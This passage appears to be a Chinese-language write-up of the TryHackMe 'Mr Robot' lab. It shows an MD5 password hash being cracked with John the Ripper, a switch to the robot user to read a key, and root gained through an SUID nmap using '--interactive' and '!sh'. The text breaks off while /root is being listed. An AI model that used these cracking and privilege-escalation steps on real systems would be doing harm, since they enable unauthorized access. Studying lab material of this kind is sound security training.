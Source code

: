 drwxr-xr-x 2 root  root  4.0K Nov 13  2015 .
drwxr-xr-x 3 root  root  4.0K Nov 13  2015 ..
-r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5
$ cat password.raw-md5
cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b

```

# 把哈希文件保存到靶机的hash.txt，用jonn爆破
```
┌──(root💀kali)-[~/tryhackme/mrrobot]
└─#  john --format=Raw-MD5 --wordlist=/usr/share/wordlists/rockyou.txt hash.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 128/128 AVX 4x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
abcdefghijklmnopqrstuvwxyz (robot)
1g 0:00:00:00 DONE (2021-09-15 22:49) 50.00g/s 2025Kp/s 2025Kc/s 2025KC/s bonjour1..123092
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed
```

# 密码：abcdefghijklmnopqrstuvwxyz，切换到tty以后su robot，查看key-2-of-3.txt
```
$ su robot
su robot
Password: abcdefghijklmnopqrstuvwxyz

robot@linux:~$ cat key-2-of-3.txt
cat key-2-of-3.txt
822c73956184f694993bede3eb39f959
robot@linux:~$ 

```

# 根据提示，查看nmap权限，发现是一个suid
```
robot@linux:~$ whereis nmap
whereis nmap
nmap: /usr/local/bin/nmap
robot@linux:~$ ls -al /usr/local/bin/nmap
ls -al /usr/local/bin/nmap
-rwsr-xr-x 1 root root 504736 Nov 13  2015 /usr/local/bin/nmap

```

# 根据GTFPbins里nmap的提权方法，这里采用shell-b方法提升到root权限，拿到key-3-of-3.txt
```
robot@linux:~$ nmap --interactive
nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
#  id
id
uid=1002(robot) gid=1002(robot) euid=0(root) groups=0(root),1002(robot)
#  ls -alh /root 
ls -alh /root
total 32K
drwx------  3 root root 4.0K Nov 13  2015 .